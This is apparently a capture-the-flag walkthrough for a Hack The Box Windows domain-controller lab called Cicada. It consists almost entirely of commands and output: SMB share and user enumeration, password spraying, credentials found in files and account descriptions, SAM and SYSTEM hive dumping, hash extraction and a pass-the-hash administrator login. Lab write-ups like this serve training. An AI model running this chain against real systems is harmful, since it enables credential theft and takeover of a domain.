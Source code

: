 pcclient $> srvinfo
	10.129.125.56  Wk Sv PDC Tim NT     CICADA-DC
	platform_id     :	500
	os version      :	10.0
	server type     :	0x80102b
***
Domain Name: CICADA
Domain Sid: S-1-5-21-917908876-1423158569-3159038727
***
***
─[eu-dedivip-1]─[10.10.14.156]─[kaimup@htb-h8an2h60bg]─[~/Desktop]
└──╼ [★]$ smbclient -L //10.129.125.56 -U guest
Password for [WORKGROUP\guest]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DEV             Disk      
	HR              Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.125.56 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
***
rootDomainNamingContext: DC=cicada,DC=htb
ldapServiceName: cicada.htb:cicada-dc$@CICADA.HTB
isGlobalCatalogReady: TRUE

***

SMB         10.129.125.56   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)

***

***NAME FOUND***

MB         10.129.125.56   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.125.56   445    CICADA-DC        [+] cicada.htb\root:123456 (Guest)
┌─[eu-dedivip-1]─[10.10.14.156]─[kaimup@htb-h8an2h60bg]─[~/Desktop]
└──╼ [★]$ crackmapexec smb 10.129.125.56 -u names.txt -p 500-worst-passwords.txt 
SMB         10.129.125.56   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.125.56   445    CICADA-DC        [+] cicada.htb\****aaliyah***:123456 (Guest)
***

Your default password is: Cicada$*********

***
CICADA\john.smoulder (SidTypeUser)
SMB         10.129.125.56   445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.125.56   445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.125.56   445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.129.125.56   445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.129.125.56   445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
502: CICADA\krbtgt (SidTypeUser)
 10.129.125.56   445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)

john.smoulder
sarah.dantelia
michael.wrightson  - √
david.orelious
emily.oscars

smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
***

***COMMAND USED***
enum4linux-ng -U 10.129.125.56 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'


**OUTPUT***
----snip-----
username: david.orelious
  name: (null)
  acb: '0x00000210'
  description: Just in case I forget my password is aRt$Lp#7t*VQ!3******
--snip----

***
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 07:31:39 2024
  ..                                  D        0  Thu Mar 14 07:21:29 2024
  Backup_script.ps1
  ***
  Inside of backup_scripts.ps1
sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "**********" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"


Administrator:500:aad3b435b51404eeaad3b435b51404ee:


***
netexec winrm cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b******'


***
*Evil-WinRM* PS C:\> reg save hklm\sam c:\Temp\sam The operation completed successfully. *Evil-WinRM* PS C:\> reg save hklm\system c:\Temp\system The operation completed successfully. *Evil-WinRM* PS C:\>

***

*Evil-WinRM* PS C:\Temp> download sam Info: Downloading C:\Temp\sam to sam Info: Download successful! *Evil-WinRM* PS C:\Temp> download system Info: Downloading C:\Temp\system to system Info: Download successful!
***
┌──(kaimup@htb)-[~/Documents/HTB/Cicada] └─$ pypykatz registry --sam sam system WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work ============== SYSTEM hive secrets ============== CurrentControlSet: ControlSet001 Boot Key: 3c2b033757a49110a9ee680b46e8d620 ============== SAM hive secrets ============== HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c1010101010101010101010101 Administrator:500:aad3b435b51404eeaad3b435b5:2b87e7c93a3e8a0*********::: Guest:501:aad3b435b51404eeaad3b435b5:31d6cfe0d16ae931b73c5***********::: DefaultAccount:503:aad3b435b51404eeaad3b435b5:31d6cfe0d16ae931b7*****:::

***
┌──(kaimup@htb)-[~/Documents/HTB/Cicada] └─$ evil-winrm -i cicada.htb -u administrator -H 2b87e7c93a3e8a0ea4a******** 

Evil-WinRM shell v3.5 Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion Info: Establishing connection to remote endpoint *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami cicada\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd C:\users\administrator\desktop 
*Evil-WinRM* PS C:\users\administrator\desktop> dir 
Directory: C:\users\administrator\desktop Mode LastWriteTime Length Name ---- ------------- ------ ---- -ar--- 10/25/2024 9:39 AM 34 root.txt 
*Evil-WinRM* PS C:\users\administrator\desktop> more root.txt; whoami; hostname; ipconfig 5b0c7aa6cd96c1058bed******** cicada\administrator CICADA-DC

***

